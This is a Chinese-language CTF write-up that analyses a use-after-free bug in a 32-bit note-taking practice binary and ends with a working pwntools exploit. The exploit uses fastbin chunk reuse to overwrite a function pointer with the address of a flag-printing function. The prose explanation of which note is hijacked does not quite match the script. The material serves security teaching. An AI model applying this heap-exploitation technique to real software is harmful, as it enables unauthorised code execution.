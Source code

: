 # Level 3 Writeup

## Use after free复现与分析

### 技术点

- checksec检查可执行文件与内核安全属性
- 使用反汇编工具（IDA pro）查找缓冲区溢出入口和可利用的源码片段
- 利用Fast Bin机制实现use after free堆利用
- 计算需要覆写的返回地址的偏移
- payload构造

### 分析

首先通过checksec检查可执行文件的保护机制

![image-20230425185230936](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251852994.png)

能够得知以下信息：

- 可执行文件为一个32位的英特尔x86可执行文件，使用小端序编码。
- 开启了“部分Relocation Read-Only”技术。
- 开启了“堆栈金丝雀（stack canary）”技术，说明程序在栈上的缓冲区和控制数据（比如返回地址）之间会放置一个随机生成的小整数（称为canary或canary word）。当缓冲区溢出时，canary往往会第一个被破坏，因此使栈溢出攻击变得困难。
- 开启了“No-eXecute”保护技术。
- 没有开启“独立位置可执行（Position Independent Executable）”技术。

接下来通过IDA pro来查看反汇编程序源码：

![image-20230425190105973](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251901004.png)

程序大意为一个笔记程序，具有"Add note"、"Delete note"、"Print note"、"Exit"四个选项。前三个选项分别对应一个实现了各自功能的函数。首先来看`add_note()`

![image-20230425190522773](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117503.png)

该函数的功能是往一个数组`notelist`中添加笔记。当笔记少于5时，会先分配一个长度为8的内存块，然后再分配一个长度为用户输入的size的内存块，最后把用户输入的内容存入内存块中。其中put字段存储的是`print_note_content`函数的地址，content字段存储的是用户输入的笔记内容。若数组已满，则输出“Full”。

![image-20230425191608445](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251916493.png)

`print_note()`函数的功能是打印笔记内容。函数首先读取用户输入的位置，如果输入的位置超出了数组范围，就输出“Out of bound!”并退出程序。如果指定位置有笔记，就调用该笔记的put字段存储的函数，即`print_note_content`函数，来打印笔记的内容。

![image-20230425191821178](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117388.png)

`del_note()`函数的功能是删除`notelist`数组中指定位置的笔记。函数首先读取用户输入的位置，如果输入的位置超出了数组范围，就输出“Out of bound!”并退出程序。如果指定位置有笔记，就先释放该笔记内容的内存，再释放该笔记所在的内存块。当释放掉笔记所在的内存块后，该内存块的指针仍然存在于`notelist`数组中，没有设置为NULL。如果后续调用`print_note()`，就可能会使用已经被释放掉的内存块，从而引发use after free的堆利用攻击。

另外，可执行文件中还存在着一个`magic()`函数，地址为`0x08048986`，用来输出`flag`。

![image-20230425192117279](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117287.png)

![image-20230425211618089](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117398.png)

显然，本题的思路应该是想办法通过设置put字段为`magic`函数的地址，然后通过`print_note()`调用put指针所指的函数从而获得`flag`。

### 攻击复现

接下来实现攻击，首先要解决如何利用use after free原理修改put地址的值。因为笔记中content字段所分配的大小可以被用户所控制，因此考虑可以使用堆分配的Fast Bin机制。

Fast Bin是一种用于管理小尺寸（大小在0x20到0x80之间）的堆块的单向链表，它可以加快堆分配的速度。当一个堆块被释放时，它会被插入到对应尺寸的Fast Bin链表中，当有新的分配请求时，它会从链表中取出一个堆块返回给用户。这种分配采取 LIFO 策略，即优先最近释放的chunk。

结合本题的反汇编代码，产生如下攻击思路：

- 每次新建note都会分配两块堆内存
  - 一块`size==8`的内存用来存放put和content指针
  - 一块由用户控制大小的内存用来存放实际的content内容
- 如果新建两个note，即note0和note1，每次申请的用来存放content实际内容的内存都`size!=8`，那么内存布局如下图所示：
  ![image-20230425204843830](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252048864.png)
- 然后再按照note0、note1的顺序删除两个note。这样对应尺寸`size==8`的Fast Bin链表末尾一定是刚刚分配的两个note用来存放指针的`size==8`的chunk，即`->note1->note0`的形式，如下图所示：
  ![image-20230425205151840](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252051883.png)
- 此时再新建一个note，并且用户申请的用来存放实际content内容的内存大小设置为`size==8`那么此时分配到的两个内存如下
  ![image-20230425205244978](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117517.png)
  - 第一块`size==8`的用来存放put和content指针的内存会分配到note0中存放指针的地址
  - 第二块`size==8`的用来存放实际的content内容的内存会分配到note1中存放指针的地址，而这一部分是可以由用户任意输入的，因此可以给note1中put指针对应位置修改为`magic`函数的地址
- 这时调用`print_note()`函数打印note1的内容，函数会调用note1中put指针所指向的函数，而此时put指针已被修改为指向`magic`函数，因此`magic`函数将会被执行，从而获得了flag。

最终的payload如下：

```python
from pwn import *

def addnote(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)

def delnote(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))

def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))

r = process('./use_after_free')
magic = 0x08048986
addnote(32, b"aaaa")
addnote(32, b"ddaa")
delnote(0)
delnote(1)
addnote(8, p32(magic))
printnote(0)
r.interactive()
```

运行payload脚本，可以成功得到flag。

![image-20230425205702169](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304252117250.png)